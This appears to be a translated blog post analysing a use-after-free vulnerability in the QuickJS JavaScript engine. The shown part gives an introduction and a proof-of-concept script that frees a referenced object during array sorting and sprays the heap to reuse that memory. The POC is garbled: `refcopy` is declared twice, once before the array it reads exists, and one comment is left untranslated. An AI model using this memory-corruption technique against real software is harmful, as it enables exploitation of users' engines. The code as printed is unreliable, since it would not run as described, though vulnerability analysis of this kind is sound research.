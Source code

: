 ```yaml
---
Title: "Analysis, Exploitation and Fix of Quickjs UAF Vulnerability"
Date: 2019-08-01T21:47:00+11:00
Summary: Quickjs is a lightweight JavaScript engine. Let's start with a benchmark. As a lightweight JavaScript engine, Quickjs is excellent, even comparable to heavy engines like Hermes in terms of performance. Although there is still a considerable gap compared to V8 javascript engine, Quickjs was developed by only one person and is only 620kb in size compared to V8.
draft: false
---
```


## 0x01 Introduction

[Quickjs](https://bellard.org/quickjs/) is a lightweight JavaScript engine. Let's start with a benchmark to see how excellent Quickjs is as a lightweight JavaScript engine. Its score is even on par with heavyweight JavaScript engines like Hermes. Although there is still a significant gap when compared with V8, it is still impressive that Quickjs is only 620kb and developed by one person.

![](https://i.imgur.com/xBWtj3e.png) 

We won't go into the specific features of Quickjs here, but if you're interested, you can visit the author's website at https://bellard.org/quickjs/ to learn more about Quickjs's features.

The reason for writing this article is because of a post I saw.

![](https://i.imgur.com/1MBnEvT.png)

Next, we will analyze the POC and Quickjs's source code to see how this vulnerability occurs, how it can be exploited, and how to fix it.

## 0x02 POC

```js=
let spray = new Array(100);
// Allocate memory on the heap for {hack:0}, with a[0] pointing to the corresponding object's address in the heap
let refcopy = [a[0]]; // refcopy points to {hack:0}
let a = [{hack:0},1,2,3,4]; 
let refcopy = [a[0]]; // refcopy points to {hack:0}
// Throw an exception
a.__defineSetter__(3,()=>{throw 1;}); 
// 下面的排序会触发异常抛出，具体如何触发下文会有介绍
try {
	a.sort(function(v){if (v == a[0]) return 0; return 1;}); 
}
catch (e){}
// Reduce the reference count of object {hack:0} by 1, causing the memory to be reclaimed if it's less than or equal to 0
a[0] = 0; 
for (let i=0; i<100; i++) spray[i] = [13371337]; // Overwrite the freed memory
console.log(refcopy[0]); // 13371337
```
From the code, we can see that this is a typical use-after-free (UAF) attack. The vulnerability occurs due to a flaw in the array sorting mechanism, which results in a reference not being properly released. As a result, an attacker can use this reference to access memory that has already been freed. Next, by analyzing the source code of Quickjs, we can see what caused this vulnerability.
